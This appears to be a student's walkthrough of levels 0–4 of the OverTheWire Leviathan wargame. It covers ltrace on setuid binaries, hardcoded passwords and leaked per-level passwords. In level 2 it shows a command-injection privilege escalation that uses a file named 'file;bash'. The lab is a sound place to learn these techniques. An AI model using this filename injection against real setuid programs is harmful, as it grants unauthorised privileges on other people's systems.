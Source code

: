 #TASK 0 

  - I used the SSH command provided in the discord. `ssh -p 2223 leviathan0@leviathan.labs.overthewire.org`
  - Later it after saying yes it prompted for a password and the password was mentioned in the leviathan site. `leviathan0`
  - I finally entered and did `ls`. Nothoin showed up and did ls again but there was nothing.
  - Then I `la` and found a hidden directory `.backup`
  - The directory has a html file. `bookmarks.html`
  - Used `cat` to view the contents of the file. It was too big. I couldn't find a password.
  - After some google search I found we could use `grep`. `grep password bookmarks.html`
  - The password is `PPIfmI1qsA`
  - `exit

#TASK 1
  - ssh into the level 1 using `ssh -p 2223 leviathan1@leviathan.labs.overthewire.org`
  - `ls -lah` and setuid file was found `check`
  - tried cat check but it was all encrypted
  - Tried `ls -lah` : `-r-sr-x---  1 leviathan2 leviathan1  15K Oct  5 06:19 check`
  - Used `ltrace` command which helps in debbuging. It propmted for password.
  - I pressed enter thrice in a row and it later outputed leviathan1@gibson:~$ ltrace ./check
```
__libc_start_main(0x80491e6, 1, 0xffffd5f4, 0 <unfinished ...>
          printf("password: ")                                                     = 10
getchar(0xf7fbe4a0, 0xf7fd6f90, 0x786573, 0x646f67password: 
)                      = 10
getchar(0xf7fbe4a0, 0xf7fd6f0a, 0x786573, 0x646f67
)                      = 10
getchar(0xf7fbe4a0, 0xf7fd0a0a, 0x786573, 0x646f67
)                      = 10
strcmp("\n\n\n", "sex")
```
  - Then `man strcmp` found out that it compares tw strings
  - So, the command was comparing the password I typed to the main password `sex`
  - To verify `./check`
  - typed in `sex` and it's right.
  - `ls` check file was found and it's encrypted.
  - Tried `sex` as the password for next task but it's not the passsword
  - In the main page of leviathan it says use `/etc/leviathan_pass/`
  - `cat /etc/leviathan_pass/leviathan2
  - password : `mEh5PNl10e`
  - `exit`

#TASK 2 (very hard)
  - `ssh -p 2223 leviathan2@leviathan.labs.overthewire.org`
  - `ls -lah` to see the file found another setuid file `printfile`
  - `ltrace ./printfile` to see if it has anything. It outputted
```
leviathan2@gibson:~$ ltrace ./printfile 
__libc_start_main(0x80491e6, 1, 0xffffd5f4, 0 <unfinished ...>
puts("*** File Printer ***"*** File Printer ***
)                                             = 21
printf("Usage: %s filename\n", "./printfile"Usage: ./printfile filename
)                            = 28
+++ exited (status 255) +++
```
  -  Googled alot found `ltrace ./printfile /etc/passwd`
```
leviathan2@gibson:~$ ltrace ./printfile /etc/passwd
__libc_start_main(0x80491e6, 2, 0xffffd5e4, 0 <unfinished ...>
access("/etc/passwd", 4)                                                 = 0
snprintf("/bin/cat /etc/passwd", 511, "/bin/cat %s", "/etc/passwd")      = 20
geteuid()                                                                = 12002
geteuid()                                                                = 12002
setreuid(12002, 12002)
```
  -  So created a temporary directory `mktemp -d`. Directory : `/tmp/tmp.xwYiWD6qKQ`
  -  `cd /tmp/tmp.xwYiWD6qKQ` : Enter the directory
  -  `touch 'file;bash'` this helps with command injection.
  -  `cd` exit directiry.
  -  `./printfile /tmp/tmp.xwYiWD6qKQ/file\;bash` : Permission is denined since we try to run the bash file but we escalte into leviathan3.
```
leviathan2@gibson:/tmp/tmp.xwYiWD6qKQ$ cd
leviathan2@gibson:~$ ./printfile /tmp/tmp.xwYiWD6qKQ/file\;bash 
/bin/cat: /tmp/tmp.xwYiWD6qKQ/file: Permission denied
leviathan3@gibson:~$
```
  -  `cat /etc/leviathan_pass/leviathan3`
  -  Password: `Q0G8j4sakn`

#TASK 3
 - `ssh -p 2223 leviathan3@leviathan.labs.overthewire.org`
 - `ls` : level3
 - `ltrace ./level3` like we did for task 1
 - we can see the password `strcmp("snlprintf\\n\n", "snlprintf\n")` similar to task 1 but we also get `strcmp("h0no33", "kakaka") `
 - Tried both and got in with `snlprintf`
 - `cat /etc/leviathan_pass/leviathan4`
 - Password : `AgvropI4OA`
 - `exit`

#TASK 4 
 - `ssh -p 2223 leviathan4@leviathan.labs.overthewire.org`
 - `ls -lah` since the file is hidden
 - `bin` setuid file is found
 - `./bin` and `01000101 01001011 01001011 01101100 01010100 01000110 00110001 01011000 01110001 01110011 00001010` gives binary output.
 - Put this into a binary to ascii converter for the password.
 - Password: `EKKlTF1Xqs`
 - `exit`
 - `ssh -p 2223 leviathan5@leviathan.labs.overthewire.org`

```
leviathan5@gibson:~$ whoami
leviathan5
leviathan5@gibson:~$
```




Links used for research:
 - https://www.cbtnuggets.com/blog/technology/system-admin/linux-file-permissions-understanding-setuid-setgid-and-the-sticky-bit
 - https://www.rapidtables.com/convert/number/binary-to-decimal.html
 - https://man7.org/linux/man-pages/man1/ltrace.1.html
 - https://www.linode.com/docs/guides/using-mktemp-command/
 - https://programmercave.com/blog/2020/01/06/Leviathan-Level-2-3-Basic-Exploitation-Techniques
   
 



  


